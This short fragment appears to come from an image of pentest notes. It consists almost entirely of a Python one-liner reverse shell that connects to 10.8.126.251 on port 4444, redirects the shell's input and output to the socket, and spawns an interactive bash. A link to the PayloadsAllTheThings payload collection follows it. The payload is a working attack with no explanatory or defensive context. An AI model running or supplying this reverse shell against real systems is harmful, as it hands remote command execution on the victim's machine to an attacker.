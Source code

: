 ```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.126.251",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

https://github.com/swisskyrepo/PayloadsAllTheThings